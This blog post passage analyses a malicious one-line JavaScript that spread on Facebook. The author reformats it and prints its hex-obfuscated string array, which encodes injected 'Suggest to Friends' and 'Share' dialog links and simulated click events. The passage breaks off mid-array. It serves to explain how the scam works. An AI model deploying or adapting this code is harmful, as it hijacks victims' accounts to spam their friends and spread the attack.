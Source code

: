 </div>

At this point I thought I'd have a closer look at the code before executing it.
It's one big line, so I couldn't inline it here, bit I took the liberty of
[grabbing a copy for myself](/downloads/javascript/evilfb.js).

After adding some newlines and indentation and replacing local variables with
their actual content, it looks something like this:

{% highlight javascript %}
/*
 * The first two arrays are obfuscated names of built-in properties/methods,
 * and some obfustcated, to-be-injected HTML. Although I don't really get why
 * the second array, one seems to be enough...
 */

var _0x8a00 = [
    "\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C",
    "\x61\x70\x70\x34\x39\x34\x39\x37\x35\x32\x38\x37\x38\x5F\x62\x6F\x64\x79",
    "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
    "\x3C\x61\x20\x69\x64\x3D\x22\x73\x75\x67\x67\x65\x73\x74\x22\x20\x68\x72" +
        "\x65\x66\x3D\x22\x23\x22\x20\x61\x6A\x61\x78\x69\x66\x79\x3D\x22\x2F" +
        "\x61\x6A\x61\x78\x2F\x73\x6F\x63\x69\x61\x6C\x5F\x67\x72\x61\x70\x68" +
        "\x2F\x69\x6E\x76\x69\x74\x65\x5F\x64\x69\x61\x6C\x6F\x67\x2E\x70\x68" +
        "\x70\x3F\x63\x6C\x61\x73\x73\x3D\x46\x61\x6E\x4D\x61\x6E\x61\x67\x65" +
        "\x72\x26\x6E\x6F\x64\x65\x5F\x69\x64\x3D\x31\x36\x39\x36\x32\x35\x36" +
        "\x33\x39\x37\x32\x31\x32\x39\x32\x22\x20\x63\x6C\x61\x73\x73\x3D\x22" +
        "\x20\x70\x72\x6F\x66\x69\x6C\x65\x5F\x61\x63\x74\x69\x6F\x6E\x20\x61" +
        "\x63\x74\x69\x6F\x6E\x73\x70\x72\x6F\x5F\x61\x22\x20\x72\x65\x6C\x3D" +
        "\x22\x64\x69\x61\x6C\x6F\x67\x2D\x70\x6F\x73\x74\x22\x3E\x53\x75\x67" +
        "\x67\x65\x73\x74\x20\x74\x6F\x20\x46\x72\x69\x65\x6E\x64\x73\x3C\x2F" +
        "\x61\x3E",
    "\x73\x75\x67\x67\x65\x73\x74",
    "\x4D\x6F\x75\x73\x65\x45\x76\x65\x6E\x74\x73",
    "\x63\x72\x65\x61\x74\x65\x45\x76\x65\x6E\x74",
    "\x63\x6C\x69\x63\x6B",
    "\x69\x6E\x69\x74\x45\x76\x65\x6E\x74",
    "\x64\x69\x73\x70\x61\x74\x63\x68\x45\x76\x65\x6E\x74",
    "\x73\x65\x6C\x65\x63\x74\x5F\x61\x6C\x6C",
    "\x73\x67\x6D\x5F\x69\x6E\x76\x69\x74\x65\x5F\x66\x6F\x72\x6D",
    "\x2F\x61\x6A\x61\x78\x2F\x73\x6F\x63\x69\x61\x6C\x5F\x67\x72\x61\x70\x68" +
        "\x2F\x69\x6E\x76\x69\x74\x65\x5F\x64\x69\x61\x6C\x6F\x67\x2E\x70\x68" +
        "\x70",
    "\x73\x75\x62\x6D\x69\x74\x44\x69\x61\x6C\x6F\x67",
    "\x3C\x61\x20\x72\x65\x6C\x3D\x22\x64\x69\x61\x6C\x6F\x67\x22\x20\x68\x72" +
        "\x65\x66\x3D\x22\x68\x74\x74\x70\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61" +
        "\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x73" +
        "\x68\x61\x72\x65\x5F\x64\x69\x61\x6C\x6F\x67\x2E\x70\x68\x70\x3F\x73" +
        "\x3D\x31\x38\x26\x61\x6D\x70\x3B\x61\x70\x70\x69\x64\x3D\x34\x39\x34" +
        "\x39\x37\x35\x32\x38\x37\x38\x26\x61\x6D\x70\x3B\x70\x5B\x5D\x3D\x31" +
        "\x36\x39\x36\x32\x35\x36\x33\x39\x37\x32\x31\x32\x39\x32\x22\x20\x74" +
        "\x69\x74\x6C\x65\x3D\x22\x53\x65\x6E\x64\x20\x74\x68\x69\x73\x20\x74" +
        "\x6F\x20\x66\x72\x69\x65\x6E\x64\x73\x20\x6F\x72\x20\x70\x6F\x73\x74" +
        "\x20\x69\x74\x20\x6F\x6E\x20\x79\x6F\x75\x72\x20\x70\x72\x6F\x66\x69" +
        "\x6C\x65\x2E\x22\x20\x69\x64\x3D\x22\x73\x6C\x69\x6E\x6B\x22\x20\x63" +
        "\x6C\x61\x73\x73\x3D\x22\x73\x68\x61\x72\x65\x20\x73\x68\x61\x72\x65" +
        "\x5F\x61\x22\x3E\x53\x68\x61\x72\x65\x3C\x2F\x61\x3E",
    "\x69\x6E\x70\x75\x74",
    "\x53\x68\x61\x72\x65",
    "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61" +
        "\x6D\x65",
    "\x6A\x75\x6E\x6B",
    "\x61\x70\x70\x34\x39\x34\x39\x37\x35\x32\x38\x37\x38\x5F\x73\x68\x64\x69" +
        "\x76",
    "\x61\x70\x70\x34\x39\x34\x39\x37\x35\x32\x38\x37\x38\x5F\x73\x67\x64\x69" +